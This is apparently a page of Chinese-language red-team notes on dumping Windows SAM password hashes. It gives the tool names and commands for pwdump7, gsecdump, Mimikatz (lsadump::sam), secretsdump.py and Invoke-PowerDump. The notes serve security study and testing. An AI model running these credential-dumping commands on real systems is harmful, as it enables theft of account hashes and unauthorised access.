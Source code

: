 SAM包含主机的本地账户的HAS值（每一台主机中都存在一个SAM），利用工具：

​    **pwdumpx.exe**

​        下载了pwdump7，直接执行exe文件即可

![1574317247983](Credential%20Access.assets/1574317247983.png)

​    **gsecdump**

​        gsecdump -a 查看SAM

​    **Mimikatz**

```
privilege::debug(切换至管理员权限)
token::elevate
lsadump::sam
```

![1574317265058](Credential%20Access.assets/1574317265058.png)

​    **secretsdump.py**

​    **Invoke-PowerDump.ps1**

```
Import-module Invoke-PowerDump.ps1
Invoke-PowerDump
```

![1574317328740](Credential%20Access.assets/1574317328740.png)
